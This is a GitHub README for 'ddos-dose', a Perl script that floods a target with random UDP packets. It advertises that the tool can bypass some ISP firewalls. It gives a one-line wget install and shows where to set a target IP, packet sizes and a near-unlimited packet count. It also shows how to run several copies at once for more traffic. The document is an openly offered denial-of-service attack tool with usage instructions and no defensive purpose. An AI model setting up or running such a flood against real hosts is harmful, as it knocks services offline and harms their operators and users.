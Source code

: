 
## Features

- Generate Random UDP Traffic
- From Random Port
- To Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl


## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp.pl && chmod 777 * && apt update -y && apt install perl -y

```
    

## Usage

```
Enter Target ---> 
my $target_host = "117.203.8.210"; (Line6)
```
```
You can edit Packet Size on Script --->
my $max_size = 100; (Line 7) Define the max packet size
my $min_size = 50;  (Line 8) Define the min packet size
```
```
You can set how much packet sent to Host? --->
my $packet_count = 1000000000000000; (Line9)
```
```
perl random-udp.pl
```
```
YOU CAN RUN IT MULTIPLE TIME TO INCREASE TRAFFIC LIKE - Depends on CPU/RAM
perl random-udp.pl & perl random-udp.pl & perl random-udp.pl
---> Multithreading Causing Issue
```


## Related

want to pass the Target IP, Packet Size, Packet Count in Command Line

[Click Here for that Script](https://github.com/cyberceros/)


## Authors

- [@cyberceros](https://www.github.com/cyberceros)


## Feedback

If you have any feedback, please reach out to us at n@dultr.in


